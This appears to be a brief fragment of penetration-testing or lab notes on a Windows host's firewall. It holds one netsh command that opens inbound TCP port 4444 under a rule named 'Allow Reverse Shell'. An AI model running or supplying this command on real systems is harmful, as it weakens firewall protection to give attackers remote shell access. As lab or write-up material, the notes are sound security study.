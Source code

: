 Firewall analysis: enabled for domain, private and public. Inbound connecitons blocked. 

![image.png](image%2067.png)

netsh advfirewall firewall add rule name="Allow Reverse Shell" protocol=TCP dir=in localport=4444 action=allow

![image.png](image%2068.png)
